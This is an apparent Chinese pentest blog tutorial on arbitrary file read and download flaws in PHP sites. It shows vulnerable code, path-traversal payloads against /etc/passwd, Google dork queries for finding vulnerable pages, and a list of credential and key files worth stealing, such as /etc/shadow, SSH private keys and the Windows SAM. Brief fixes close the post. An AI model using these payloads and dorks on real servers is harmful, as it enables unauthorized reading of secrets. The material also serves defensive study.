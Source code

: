 +++
date = "2016-07-27T23:25:18+08:00"
description = ""
draft = false
tags = ["信息泄露"]
title = "任意文件查看与下载漏洞"
topics = ["Pentest"]

+++

### 0x00 漏洞介绍
一些网站由于业务需求，往往需要提供文件查看或文件下载功能，但若对用户查看或下载的文件不做限制，则恶意用户就能够查看或下载任意敏感文件，这就是文件查看与下载漏洞

### 0x01 利用条件
```
* 存在读文件的函数
* 读取文件的路径用户可控且未校验或校验不严
* 输出了文件内容
```

### 0x02 漏洞危害
```
下载服务器任意文件，如脚本代码、服务及系统配置文件等
可用得到的代码进一步代码审计，得到更多可利用漏洞
```

### 0x03 任意文件读取
代码形式可如下几种：
```php
<?php
    $filename = "test.txt";
    readfile($filename);
?>

<?php
    $filename = "test.txt";

    $fp = fopen($filename,"r") or die("Unable to open file!");
    $data = fread($fp,filesize($filename));
    fclose($fp);

    echo "<pre>";
        print_r(htmlspecialchars($data));
    echo "</pre>";
?>

<?php
    $filename = "test.txt";
    $data = file_get_contents($filename);

    echo "<pre>";
        print_r(htmlspecialchars($data));
    echo "</pre>";
?>
```

### 0x04 任意文件下载
直接下载：
```
<a href="http://www.xx.com/a.zip">Download</a>
```
用header()下载：
```php
<?php
    $filename = "uploads/201607141437284653.jpg";

    header('Content-Type: imgage/jpeg');
    header('Content-Disposition: attachment; filename='.$filename);
    header('Content-Lengh: '.filesize($filename));
    readfile($filename);
?>
```

### 0x05 漏洞利用代码
```php
readfile.php?file=/etc/passwd
readfile.php?file=../../../../../../../../etc/passwd
readfile.php?file=../../../../../../../../etc/passwd%00
```

### 0x06 Google search
```
inurl:"readfile.php?file="
inurl:"read.php?filename="
inurl:"download.php?file="
inurl:"down.php?file="
等等...
```

### 0x07 漏洞挖掘
```
可以用Google hacking或Web漏洞扫描器
从链接上看，形如：
    • readfile.php?file=***.txt
    • download.php?file=***.rar
从参数名看，形如：
    • &RealPath= 
    • &FilePath= 
    • &ﬁlepath= 
    • &Path= 
    • &path= 
    • &inputFile= 
    • &url= 
    • &urls= 
    • &Lang= 
    • &dis= 
    • &data= 
    • &readﬁle= 
    • &ﬁlep= 
    • &src= 
    • &menu= 
    • META-INF 
    • WEB-INF
```

### 0x08 敏感文件如下
```
Windows：
    C:\boot.ini  //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
    C:\Windows\repair\sam  //存储系统初次安装的密码
    C:\Program Files\mysql\my.ini  //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
    C:\Windows\php.ini  //php配置信息
    C:\Windows\my.ini  //Mysql配置信息
    ...
Linux：
    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history
    /root/.mysql_history
    /proc/self/fd/fd[0-9]*(文件标识符)
    /proc/mounts
    /porc/config.gz
```

### 0x09 漏洞验证
```
• index.php?f=../../../../../../etc/passwd 
• index.php?f=../index.php 
• index.php?f=ﬁle:///etc/passwd
注：当参数f的参数值为php文件时，若是文件被解析则是文件包含漏洞，
    若显示源码或提示下载则是文件查看与下载漏洞
```

### 0x0A 修复方案
```
* 过滤点(.)，使用户在url中不能回溯上级目录
* 正则严格判断用户输入参数的格式
* php.ini配置open_basedir限定文件访问范围
```